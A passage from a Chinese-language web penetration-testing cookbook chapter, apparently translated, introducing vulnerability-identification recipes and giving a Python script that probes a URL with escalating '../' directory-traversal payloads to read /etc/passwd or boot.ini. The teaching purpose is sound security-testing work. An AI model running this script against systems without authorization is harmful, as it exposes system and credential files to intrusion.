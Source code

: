 # 第三章：漏洞识别

在本章中，我们将涵盖以下主题：

+   自动化基于 URL 的目录遍历

+   自动化跨站脚本（参数和 URL）

+   自动化基于参数的跨站脚本

+   自动模糊测试

+   jQuery 检查

+   基于头部的跨站脚本

+   Shellshock 检查

# 介绍

本章重点介绍从**开放式 Web 应用安全项目**（**OWASP**）的前 10 个传统 Web 应用程序漏洞。这将包括**跨站脚本**（**XSS**），目录遍历以及那些简单到不需要单独章节检查的其他漏洞。本章提供了每个脚本的基于参数和基于 URL 的版本，以适应任何情况并减少单个脚本的复杂性。大多数这些工具都有完全成熟的替代方案，比如 Burp Intruder。看到每个工具以其简单的 Python 形式的好处在于，它让你了解如何构建和制作自己的版本。

# 自动化基于 URL 的目录遍历

偶尔，网站使用不受限制的函数调用文件；这可能导致传说中的目录遍历或**直接对象引用**（**DOR**）。在这种攻击中，用户可以通过使用一个易受攻击的参数在网站的上下文中调用任意文件。这可以通过两种方式进行操纵：首先，通过提供绝对链接，比如`/etc/passwd`，这表示从`root`目录浏览到`etc`目录并打开`passwd`文件，其次，相对链接，可以向上遍历目录以达到`root`目录并访问目标文件。

我们将创建一个脚本，尝试逐渐增加 URL 参数中的向上目录数量，以打开 Linux 机器上始终存在的文件`/etc/passwd`。它将通过检测到指示文件已被打开的短语 root 来确定何时成功。

## 准备工作

确定您要测试的 URL 参数。此脚本已配置为与大多数设备一起使用：`etc/passwd`应该适用于 OSX 和 Linux 安装，`boot.ini`应该适用于 Windows 安装。查看本示例的末尾，以获取可用于测试脚本有效性的 PHP 网页。

我们将使用可以通过`pip`安装的 requests 库。在作者看来，它在功能和可用性方面比`urllib`更好。

## 如何做…

一旦确定要攻击的参数，请将其作为命令行参数传递给脚本。您的脚本应与以下脚本相同：

```py
import requests
import sys
url = sys.argv[1]
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
up = "../"
i = 0
for payload, string in payloads.iteritems():
  for i in xrange(7):
    req = requests.post(url+(i*up)+payload)
    if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```

